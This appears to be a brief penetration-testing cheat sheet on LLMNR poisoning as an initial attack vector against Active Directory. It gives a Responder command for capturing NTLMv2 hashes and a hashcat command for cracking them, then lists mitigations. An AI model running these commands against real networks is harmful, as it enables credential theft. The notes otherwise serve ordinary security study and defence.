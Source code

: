 # AD Initial attack vector

## LLMNR poisoning

<figure><img src=".gitbook/assets/Capture d&#x27;écran 2024-05-06 003240.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface> -dwPv
# crack hash
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy
```

